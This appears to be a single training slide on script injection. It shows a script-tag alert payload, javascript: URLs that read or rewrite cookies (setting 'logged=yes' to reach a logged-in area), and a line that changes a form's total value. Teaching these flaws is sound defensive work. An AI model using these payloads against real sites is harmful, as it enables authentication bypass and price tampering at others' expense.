

# Code Injection-Script Injection
Example-1
	Hello<script>alert('Injected!');</script> world
Example-2
	javascript:alert(document.cookie);
	By only taking a look at site cookies, one could find some very descriptive ones implementing security features; for example, if you find a site cookie like "logged=no", probably one could go into the logged area simply by changing that cookie value:
	javascript: void(document.cookie="logged=yes");
Example-3
javascript:void(document.forms[0].total.value=1);